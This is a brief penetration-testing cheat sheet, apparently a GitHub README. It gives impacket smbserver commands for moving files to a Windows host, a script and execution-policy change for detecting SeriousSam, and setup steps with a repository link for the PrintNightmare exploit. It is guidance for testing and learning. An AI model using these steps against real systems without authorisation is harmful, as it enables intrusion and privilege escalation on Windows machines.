 # Pentest Guides 

## Feching files to Windows host

Linux | Windows
-------|--------
`sudo smbserver.py -smb2support -user complexia -password complexia share $(pwd)` | `\\192.168.1.1\share\$(filename)`
`sudo smbserver.py share $(pwd) -smb2support` | `\\192.168.1.1\share\$(filename)`



## Vulnerabilities - Windows

### -> SeriousSam

***Setup Command***

*Running a script on a low privilege user will cause an error, run the command below*

`Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser`


**Discovery methods**

Method | Command
-------|--------
PowerShell | `.\SeriousSam.ps1`

Link to [Github Repository](https://github.com/romarroca/SeriousSam/blob/main/serioussam.ps1)

### -> PrintNightmare

***Setup Command***

*Download virtualenv* --> `sudo apt install virtualenv`

*Create virtual enviroment by sudo privileges with the command -->* `virtualenv --python=python3 impacket`

*Git clone * [Repository](https://github.com/cube0x0/CVE-2021-1675)


